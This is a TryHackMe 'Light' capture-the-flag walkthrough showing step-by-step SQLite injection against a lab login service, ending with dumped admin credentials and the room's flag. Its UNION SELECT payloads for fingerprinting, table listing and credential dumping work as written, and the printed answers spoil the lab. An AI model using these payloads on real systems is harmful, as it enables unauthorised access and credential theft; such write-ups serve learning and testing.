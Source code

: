 # TryHackMe Light: Full Walkthrough & SQL Injection Exploit

Recently, I tackled the **"Light"** challenge on TryHackMe, which was a fun and beginner-friendly box focused on **SQL injection in SQLite**. Here's a full breakdown of how I approached and solved it, along with insights into some interesting SQLi behavior.

## Challenge Setup

When connecting to the machine on port **1337** using `nc`, we're greeted with a login prompt:

**nc 10.10.39.206 1337**
You'll see:

Welcome to the Light database!
Please enter your username:

##Testing for SQL Injection

I started with classic test inputs:

Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL

Please enter your username: admin
Username not found.

Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"

That error suggests SQL queries are constructed in a vulnerable way. This confirmed SQL Injection is possible.

Understanding the Query Structure

I noticed that a malformed username like:

**smokey' '**

gave:

**Error: near "''": syntax error**

This suggests the query might be something like:

**SELECT password FROM users WHERE username = '<input>' LIMIT 30;**

I also saw that using SQL comments like --, /*, or encoded characters like %0b were blocked:

Please enter your username: smokey' --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)

##Bypassing Filters and Identifying the Database Type
At first, I assumed the backend was using MySQL, so I tested common MySQL-specific payloads like:

' UNION SELECT @@version

But got:

Error: unrecognized token: "@"

This ruled out MySQL. I also tried payloads for PostgreSQL and other DBMS, but nothing worked.

Eventually, I tried:

**Please enter your username: ' Union Select sqlite_version()'
Password: 3.31.1**

🎯 This confirmed two critical things:

The backend is using SQLite - sqlite_version() is a built-in SQLite function

SQL injection is fully working even without comments

##Extracting Tables and Data

To enumerate the tables:

Please enter your username: ' Union Select name FROM sqlite_master'
Password: admintable

We found a table named admintable. Let's dump its contents:

**Please enter your username: ' Union Select username || '~' || password from admintable'
Password: TryHackMeAdmin~mamZtAuMlrsEy5bp6q17**

Finally, we pulled the flag:

**Please enter your username: ' Union Select password from admintable'
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}**

Answers
What is the admin username?
✅ TryHackMeAdmin

What is the password to the username mentioned in question 1?
✅ mamZtAuMlrsEy5bp6q17

What is the flag?
✅ THM{SQLit3_InJ3cTion_is_SimplE_nO?}
